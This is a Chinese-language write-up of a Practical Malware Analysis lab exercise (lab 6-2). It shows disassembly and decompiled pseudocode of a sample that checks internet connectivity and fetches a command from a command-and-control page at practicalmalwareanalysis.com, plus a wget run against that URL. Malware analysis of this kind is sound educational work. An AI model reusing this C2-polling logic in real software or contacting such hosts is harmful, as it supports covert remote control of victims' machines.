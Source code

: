 # lab 6-2

## QUESTION 1

> What operation does the first subroutine called by main perform?

查看 `_main` 的汇编代码：

```assembly
.text:00401130 ; =============== S U B R O U T I N E =======================================
.text:00401130
.text:00401130 ; Attributes: bp-based frame
.text:00401130
.text:00401130 ; int __cdecl main(int argc, const char **argv, const char **envp)
.text:00401130 _main           proc near               ; CODE XREF: start+AFp
.text:00401130
.text:00401130 var_8           = byte ptr -8
.text:00401130 var_4           = dword ptr -4
.text:00401130 argc            = dword ptr  8
.text:00401130 argv            = dword ptr  0Ch
.text:00401130 envp            = dword ptr  10h
.text:00401130
.text:00401130                 push    ebp
.text:00401131                 mov     ebp, esp
.text:00401133                 sub     esp, 8
.text:00401136                 call    sub_401000
......
```

可见这个汇编代码调用的第一个子过程是 `sub_401000`，同样的查看它的伪代码：

```pseudocode
signed int sub_401000()
{
  signed int result; // eax@2

  if ( InternetGetConnectedState(0, 0) )
  {
    sub_40117F(aSuccessInterne);
    result = 1;
  }
  else
  {
    sub_40117F(aError1_1NoInte);
    result = 0;
  }
  return result;
}
```

这也是一个判断网络连接状态的函数。

## QUESTION 2

> What is the subroutine located at `0x40117F`?

跳转到这个地址之后查看这个子过程的伪代码：

```c
int sub_40117F(const char *a1, ...)
{
  int v1; // edi@1
  int v2; // ebx@1
  va_list va; // [sp+14h] [bp+8h]@1

  va_start(va, a1);
  v1 = _stbuf(&stru_407160);
  v2 = sub_4013A2(&stru_407160, (int)a1, (int)va);
  _ftbuf(v1, &stru_407160);
  return v2;
}
```

这个跟前面一题的 `printf` 内容是类似的。应该也是一个 `printf` 函数。

## QUESTION 3

> What does the second subroutine called by main do?

先找到 `main` 函数的调用的第二个子过程，是在 `.text:401148` 位置调用的函数 `sub_401040`。

```c
char sub_401040()
{
  char result; // al@2
  char Buffer; // [sp+0h] [bp-210h]@3
  char v2; // [sp+1h] [bp-20Fh]@6
  char v3; // [sp+2h] [bp-20Eh]@7
  char v4; // [sp+3h] [bp-20Dh]@8
  char v5; // [sp+4h] [bp-20Ch]@9
  HINTERNET hFile; // [sp+200h] [bp-10h]@1
  HINTERNET hInternet; // [sp+204h] [bp-Ch]@1
  DWORD dwNumberOfBytesRead; // [sp+208h] [bp-8h]@3
  int v9; // [sp+20Ch] [bp-4h]@3

  hInternet = InternetOpenA(szAgent, 0, 0, 0, 0);
  hFile = InternetOpenUrlA(hInternet, szUrl, 0, 0, 0, 0);
  if ( hFile )
  {
    v9 = InternetReadFile(hFile, &Buffer, 0x200u, &dwNumberOfBytesRead);
    if ( v9 )
    {
      if ( Buffer != 60 || v2 != 33 || v3 != 45 || v4 != 45 )
      {
        sub_40117F(aError2_3FailTo);
        result = 0;
      }
      else
      {
        result = v5;
      }
    }
    else
    {
      sub_40117F(aError2_2FailTo);
      InternetCloseHandle(hInternet);
      InternetCloseHandle(hFile);
      result = 0;
    }
  }
  else
  {
    sub_40117F(aError2_1FailTo);
    InternetCloseHandle(hInternet);
    result = 0;
  }
  return result;
}
```

我们逐个分析，对于：

```c
hInternet = InternetOpenA(szAgent, 0, 0, 0, 0);
// szAgent ==> 字符常量 Internet Explorer 7.5/pma
```

这一行代码通过 `Internet Explorer 7.5`  打开了一个浏览器。

对于：

```c
hFile = InternetOpenUrlA(hInternet, szUrl, 0, 0, 0, 0);
// szUrl ==> 字符常量 http://www.practicalmalwareanalysis.com/cc.htm
```

这一行代码在之前打开的浏览器中打开了一个链接 `http://www.practicalmalwareanalysis.com/cc.htm`。

对于：

```c
v9 = InternetReadFile(hFile, &Buffer, 0x200u, &dwNumberOfBytesRead);
```

这一行代码将打开的网页读入变量中。

对于：

```c
sub_40117F(aError2_3FailTo);
// aError2_3FailTo ==> 字符常量 Error 2.3: Fail to get command
......
sub_40117F(aError2_2FailTo);
// aError2_3FailTo ==> 字符常量 Error 2.2: Fail to ReadFile
......
sub_40117F(aError2_1FailTo);
// aError2_1FailTo ==> 字符常量 Error 2.1: Fail to OpenUrl
```

都是用于抛出异常、错误的函数。

**结论**：综上所述，这个函数用于读取 `http://www.practicalmalwareanalysis.com/cc.htm` 的内容，并且将其作为函数的返回结果返回。读取失败会抛出异常。

## QUESTION 4

> What type of code construct is used in this subroutine?

主要是 `if` 语句。

## QUESTION 5

> Are there any network-based indicators for this program?

有。主要有以下三点：

1. 静态分析这个应用程序引用的动态链接库，有调用网络相关的 API 函数；
2. 动态分析这个应用程序，运行这个应用程序将检测到 DNS 请求。
3. 这个应用应用程序的全局变量（字符串）区有 `http://www.practicalmalwareanalysis.com/cc.htm` 这样的字符串。

## QUESTION 6

> What is the purpose of this malware?

我们尝试把网页尝试下载的内容下载下来：

```bash
$ wget http://www.practicalmalwareanalysis.com/cc.htm
--2019-06-05 15:00:49--  http://www.practicalmalwareanalysis.com/cc.htm
Resolving www.practicalmalwareanalysis.com (www.practicalmalwareanalysis.com)... 192.0.78.24, 192.0.78.25
Connecting to www.practicalmalwareanalysis.com (www.practicalmalwareanalysis.com)|192.0.78.24|:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://www.practicalmalwareanalysis.com/cc.htm [following]   
--2019-06-05 15:00:50--  https://www.practicalmalwareanalysis.com/cc.htm
Connecting to www.practicalmalwareanalysis.com (www.practicalmalwareanalysis.com)|192.0.78.24|:443... connected.
```

一直卡在了这个位置。我们直接用 `Chrome` 访问发现出现了 404 错误。

暂时不清楚这个恶意代码的作用。